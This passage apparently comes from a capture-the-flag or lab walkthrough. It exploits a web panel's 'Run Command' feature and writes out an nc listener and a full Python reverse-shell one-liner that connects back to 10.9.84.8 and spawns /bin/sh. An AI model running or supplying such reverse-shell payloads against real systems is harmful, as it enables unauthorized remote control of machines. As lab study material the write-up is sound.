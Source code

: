 ![](Pictures/rum_command.png)

We can run shell commands here like `whoami`

We can check if python is there or not by typing 
```
python -c 'print "akslkajdslkdj"'
```
into the run command panel.

Therefore we can also try to get a bash reverse shell. 

```
rlwrap nc -nlvp 1331
```

Then paste this into the `Run Command` panel.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.84.8",1331));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We will get a shell back.
